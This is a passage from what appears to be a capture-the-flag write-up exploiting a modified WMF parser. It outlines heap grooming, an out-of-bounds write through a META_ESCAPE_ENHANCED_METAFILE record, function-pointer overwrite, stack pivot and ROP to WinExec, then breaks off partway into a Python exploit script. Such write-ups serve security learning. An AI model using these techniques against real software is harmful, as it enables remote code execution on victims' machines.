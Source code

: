 Clearly they add some code in this section, let's see.

![](img/11.jpg)

Hmm, a modified wmf process function.

![](img/12.jpg)

They also added some interesting functions which I have no idea what they do.

![](img/13.jpg)

![](img/14.jpg)

Also, there's new function that can arrange heap layout to what we want.

![](img/15.jpg)

So ideally we allocate some buffer with 0x108 size to fill the heap hole, and allocate vuln buffer with META_ESCAPE_ENHANCED_METAFILE record, but don't trigger oob. Buffer contains function pointer should be allocated right after our vuln buffer. Next time we can oob the heap and overwrite the function pointer to achieve RCE.

![](img/16.jpg)

By controlling eip, we can pivot the stack and do ROP, simply write a "calc" in data segment and call WinExec .

![](img/17.jpg)

![](img/18.jpg)

### Full exploit code

```python
# -- coding:utf-8 --
# Python3 required
from struct import *
import base64


def p32(data):
    return pack('<I', data)


def p16(data):
    return pack('<H', data)


class Header:
    def __init__(self):
        self.key = 0x9AC6CDD7
        self.HWmf = 0
        self.left = self.top = self.right = self.bottom = self.inch = self.reserved = 0
        self.type = 1
        self.HeaderSize = 9
        self.version = 0x300
        self.size = 9
        self.NumberOfObjects = 0
        self.MaxRecord = 0x100
        self.NumberOfMembers = 0
        self.Records = []

    def __bytes__(self):

```